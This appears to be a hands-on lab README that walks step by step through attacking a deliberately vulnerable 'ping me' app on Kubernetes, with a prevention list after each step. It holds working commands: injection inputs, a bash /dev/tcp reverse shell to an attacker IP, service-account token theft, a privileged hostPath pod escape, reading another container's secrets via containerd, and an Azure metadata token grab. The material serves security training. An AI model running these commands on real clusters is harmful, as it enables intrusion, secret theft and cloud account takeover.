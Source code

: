 # Hijack Kubernetes Hands-on

## Play with the sample app

The sample app "ping me" pings a destination provided via the input field. Try the folloing inputs:

```bash
127.0.0.1

127.0.0.1; echo "I was here"

; which bash
```

<details>
<summary>Details on how to input the snippets</summary>

1. Let's try to inject a command after the IP address: `127.0.0.1; echo "I was here"`. As you see in the responce it worked.
2. Now we try whether `bash` is available: `; which bash`. And it is! Looks like we could try to hijack the container.

</details>

<details>
<summary>How to prevent this attack</summary>

* Shift security left and enable [SAST scanning](https://owasp.org/www-community/Source_Code_Analysis_Tools)
* Build secure/small container images ([distroless](https://github.com/GoogleContainerTools/distroless), less is more)

</details>

## Hijack the container

We now inject into the container via a reverse shell. Try the following:

On your attacker machine:

```bash
sudo nc -lnvp 80
```

Input for the app (change your IP):

```bash
; bash -c 'bash -i >& /dev/tcp/0.0.0.0/80 0>&1'
```

<details>
<summary>Details on how to hijack the container</summary>

1. We will open a connection on our attacker machine using netcat: `sudo nc -lnvp 80`
2. Now we inject the required command into our container. This allow us to connect a reverse shell to our open connection: `; bash -c 'bash -i >& /dev/tcp/20.86.25.78/80 0>&1'`.
3. And finally, we have a reverse shell up and running. Try some commands like `ls`

</details>

<details>
<summary>How to prevent this attack</summary>

* Build secure/small container images ([distroless](https://github.com/GoogleContainerTools/distroless), less is more)
* Deny egress network access on a network level as well as using [Kubernetes Network Policies](https://kubernetes.io/docs/concepts/services-networking/network-policies/)
* Detect untrusted process with container runtime security tools like [Falco](https://github.com/falcosecurity/falco)

</details>

## Get access to the Kubernetes API

Let's see if we can access the API Server. Execute the following snippets:

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CA=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api

NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api/v1/namespaces/$NS/pods

curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/

kubectl get pods
kubectl get pods -A
kubectl get nodes

kubectl auth can-i create pod
```

<details>
<summary>Details on how to access the Kubernetes API server</summary>

Let's see if we can access the API Server.
```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CA=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt

curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api
```

It looks like we were able to authenticate and do have some access. Let's try whether we have access to see other pods in our namespace:

``` bash
NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api/v1/namespaces/$NS/pods
```

This looks good! Let's install `kubectl` for easier access:

```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/
```

Let's see what we are allowed to do:

```bash
kubectl get pods
kubectl get pods -A
kubectl get nodes

kubectl auth can-i create pod
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Do not share service accounts between applications
* Do not enable higher access levels for the default service account (this app would not have needed it!)
* Review all third-party snippets before deploying them
* Use read-only filesystems
* Deny running root containers (Tools like [OPA Gatekeeper](https://github.com/open-policy-agent/gatekeeper) and [Kyverno](https://github.com/kyverno/kyverno) can help)
* Things we already talked about
  * Limit egress access to the internet
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>

## Hijack the Kubernetes Node

Let's try one more thing. Are we able to schedule a privileged pod and "talk" to containerd? Execute the following snippets:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: default
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    stdin: true
    tty: true
    volumeMounts:
    - mountPath: /mnt
      name: volume
    securityContext:
      privileged: true
  volumes:
  - name: volume
    hostPath:
      path: /run/containerd
EOF

kubectl exec -it -n default privileged-pod /bin/bash

apt-get update; apt-get install -y curl jq

curl -LO https://github.com/containerd/containerd/releases/download/v1.5.5/cri-containerd-cni-1.5.5-linux-amd64.tar.gz; tar -xvf cri-containerd-cni-1.5.5-linux-amd64.tar.gz

ctr --address /mnt/containerd.sock --namespace k8s.io container list

```

<details>
<summary>Details on how to hijack the node</summary>

Let's try to schedule a priviledged pod and try to "talk" to containerd:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: default
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    stdin: true
    tty: true
    volumeMounts:
    - mountPath: /mnt
      name: volume
    securityContext:
      privileged: true
  volumes:
  - name: volume
    hostPath:
      path: /run/containerd
EOF
```

Then we need to attach to the pod:

```bash
kubectl exec -it -n default privileged-pod /bin/bash
```

Now we can try to install some basics as well as the containerd CLI and talk to the containerd socket:

```bash
apt-get update; apt-get install -y curl jq

curl -LO https://github.com/containerd/containerd/releases/download/v1.5.5/cri-containerd-cni-1.5.5-linux-amd64.tar.gz; tar -xvf cri-containerd-cni-1.5.5-linux-amd64.tar.gz

ctr --address /mnt/containerd.sock --namespace k8s.io container list
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Things we already talked about
  * Deny priviledged containers, host path mounts and other security related settings via Policies
  * Do not share service accounts
  * Limit egress access to the internet
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>

---

## Access secrets from another container

We will now try to retrieve secrets from a container we do not have access to (via Kubernetes):

```bash
id=$(ctr --address /mnt/containerd.sock --namespace k8s.io container list | grep "13f21f8cb8c85084bc9a3ddf98ecae31de1e5255363bd3a9c9ed50528106676c" | awk '{print $1}')

ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq .Spec.process.env
```

<details>
<summary>Details on how to access the secrets</summary>

We will use the containerd cli to access details of a container running on this nodes.

First we will retrieve the container ID:

```bash
id=$(ctr --address /mnt/containerd.sock --namespace k8s.io container list | grep "13f21f8cb8c85084bc9a3ddf98ecae31de1e5255363bd3a9c9ed50528106676c" | awk '{print $1}')
```

And then request container runtime details like environemnt variables:
```bash
ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq .Spec.process.env
```

We could now use the database connection secret to access the database.

</details>

<details>
<summary>How to prevent this attack</summary>

* Things we already talked about
  * Deny priviledged containers, host path mounts and other security related settings via Policies
  * Limit egress access to other cloud resources
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>

## Hijack Cloud resources

We can also use the underlying cloud identity and try to escape even further. Execute the following snippet to get a valid Cloud provider token:

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /tmp

IDENTITY=$(cat /tmp/etc/kubernetes/azure.json | jq -r .userAssignedIdentityID)

TOKEN=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?client_id='$IDENTITY'&api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq -r .access_token)
```

<details>
<summary>Details on how to retrieve a Cloud provider token</summary>

First of all we need to mount the local node filesystem to access underlying identity id:

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /tmp
```

We now can retrieve the used Cloud identity and request a valid token using the Cloud metadata service:

```bash
IDENTITY=$(cat /tmp/etc/kubernetes/azure.json | jq -r .userAssignedIdentityID)

TOKEN=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?client_id='$IDENTITY'&api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq -r .access_token)
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Deny access to the Cloud provider metadata service using Network Policies (all Cloud providers!)
* Things we already talked about
  * Deny priviledged containers, host path mounts and other security related settings via Policies
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>
